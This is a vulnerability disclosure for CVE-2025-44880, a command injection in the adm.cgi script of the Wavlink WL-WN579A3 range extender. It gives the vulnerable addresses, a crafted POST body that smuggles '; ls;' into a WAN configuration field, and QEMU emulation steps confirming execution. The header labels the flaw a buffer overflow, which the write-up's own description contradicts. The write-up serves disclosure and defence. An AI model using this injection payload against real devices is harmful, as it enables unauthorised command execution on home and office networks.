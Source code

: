 ```yaml
---
title: Remote Command Execution in adm.cgi of wavlink-WL-WN579A3 Device
date: 2025-03-27 15:00:41
tags: cve
---
```




**Affected Product**: Wavlink-WL-WN579A3

**Affected Firmware Versions**:  v1.0

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44880

CNVD:CNVD-2025-11239



# Wavlink-WL-WN579A3 introduced

**Wavlink-WL-WN579A3** is engineered to deliver dual-band signal extension and expansive coverage, making it an exceptional solution for homes, offices, and hybrid indoor-outdoor networking environments. Equipped with a built-in high-power amplifier, this high-performance Wi-Fi range extender effortlessly penetrates thick walls and obstacles, ensuring stable connectivity across large areas.



![image-20250317214843356](../res/image-20250317214843356-17430608159401.png)

# **Description**:

A command injection vulnerability exists in the network configuration management module's CGI script (`./etc/lighttpd/www/cgi-bin/adm.cgi`). The flaw is triggered when user-supplied input is concatenated and passed to the `system()` function via the `sub_4018E8` routine. This module manages various WAN interface configurations (e.g., DHCP, PPPoE, 4G, PPTP/L2TP).





# exploit：



The vulnerability occurs at code address `0x0040300C`

![image-20250327151503899](../res/image-20250327151503899.png)



with the critical string construction performed at `0x00402EA8`, where several parameters (such as v112, v67, v79, v111, and v81) are fully user-controlled. 

![image-20250327152002211](../res/image-20250327152002211.png)



![image-20250327155111167](../res/image-20250327155111167.png)

Under specific conditions—when the HTTP parameters include:

```
page=wan&Wan0T=5&wan_type_4g=AUTO4G&Second_wan_value=STATIC
HTTP_REFERER=wifi.wavlink.com
```



—and the POST data is crafted as follows:

```
page=wan&Wan0T=5&wan_type_4g=AUTO4G&Second_wan_value=STATIC&ppp_username=admin2860&ppp_passwd=0&ppp_setver=0&Igmp_proxy_value=0&rwan_ip=0&rwan_mask=0&rwan_gateway=0; ls;
```



Executing within a chrooted QEMU environment:

```
sudo chroot . ./qemu-mipsel-static -E CONTENT_LENGTH=1111 -cpu 74Kf  -g 1234 -E HTTP_REFERER=wifi.wavlink.com  -L ./lib ./etc/lighttpd/www/cgi-bin/adm.cgi < post_data.txt

```



Debugging confirms execution within `system()`

![image-20250327152720056](../res/image-20250327152720056.png)



—the resulting command assembled by the application is:

```
dual_wan.sh pptp admin2860 0 0 static 0 0 0; ls; 1>/dev/null 2>&1
```

This command not only executes the intended script (`dual_wan.sh`) but also the injected `ls` command, which confirms that arbitrary command execution is possible. Given the potential for information disclosure and further system compromise, this issue is critical and should be addressed promptly.
